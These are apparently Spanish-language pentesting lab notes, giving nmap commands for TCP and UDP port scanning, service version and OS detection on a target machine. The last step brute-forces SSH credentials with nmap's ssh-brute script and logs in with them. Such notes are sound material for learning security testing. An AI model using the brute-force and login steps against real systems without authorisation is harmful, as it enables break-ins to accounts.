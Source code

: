2. Identificar los puertos TCP abiertos de la maquina

	nmap [ip] -sT	-> Escanea los puertos TCP abiertos

	T: TCP

	Salida:
		PORT	STATE	SERVICE
		21/tcp	open	ftp
		...	...	...

3. Identificar los puertos UDP más frecuentes abiertos de la maquina

	sudo nmap [ip] -sU --top-ports [top]

	U: UDP, top-ports: muestra el estado de los [top] puertos mas comunes	
	Salida:
		PORT	STATE	SERVICE
		53/udp	open	domain
		...	...	...

	Extra:
	
	sudo nmap [ip] -sU 	-> muestra solo los puertos UDP abiertos

4. Averiguar version de los servicios ejecutándose en los puertos

	nmap [ip] -sV -p [lista_puertos]	-> Para puertos TCP
	sudo nmap [ip] -sUV -p [lista_puertos]	-> Para puertos UDP

	V: Version, p: puerto

	Salida:
		PORT	STATE	SERVICE	VERSION
		22/tcp	open	ssh	OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
		...	...	...	...

5. Averiguar la version del sistema operativo instalado en la maquina

	sudo nmap [ip] -O

	O: Sistema Operativo

	Salida:
		Running: Linux 2.6.X
		OS CPE: cpe:/o:linux:linux_kernel:2.6
		OS details: Linux 2.6.9 - 2.6.33

6. Iniciar sesion en la maquina a traves de SSH

	1 - Intentar conseguir credenciales con fuerza bruta

	nmap --script ssh-brute [ip]

	Salida:
		Accounts:
			[nombre_usuario]:[contraseña] - Valid credentials

	2 - Conseguidas las credenciales, iniciar sesion en la maquina

	ssh [nombre_usuario]@[ip] // [contraseña]
